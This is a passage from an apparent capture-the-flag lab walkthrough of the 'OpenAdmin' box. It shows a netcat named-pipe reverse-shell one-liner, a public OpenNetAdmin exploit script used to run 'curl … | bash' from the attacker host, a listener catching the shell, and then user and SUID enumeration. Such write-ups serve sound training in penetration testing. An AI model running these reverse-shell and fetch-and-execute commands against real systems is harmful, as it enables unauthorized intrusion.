 I gain the reverse shell by hosting reverse shell code in local, serve via HTTP server. Then curl from the target machine and pipe to bash.

```bash
ghost@localhost [23:41:40] [~/Documents/hacking/tj-null-boxes/openadmin] [master *]
-> % echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f" > shell


ghost@localhost [23:40:31] [~/Documents/hacking/tj-null-boxes/openadmin] [master *]
-> % ./47691.sh 10.10.10.171/ona/
$ curl 10.10.14.8/shell | bash


ghost@localhost [23:40:44] [~/Documents/hacking/tj-null-boxes/openadmin] [master *]
-> % nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.171] 35020
/bin/sh: 0: can't access tty; job control turned off
$
```


# User

I found 2 users
- jummy
- joanna

```bash
www-data@openadmin:/opt/ona/www$ ls /home
ls /home
jimmy  joanna
```

I first check SUID.

```bash
www-data@openadmin:/opt/ona/www$ find / -perm /4000 2>/dev/null | grep -v 'snap'
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/at
/bin/ping
/bin/umount
/bin/su
/bin/mount
/bin/fusermount
```
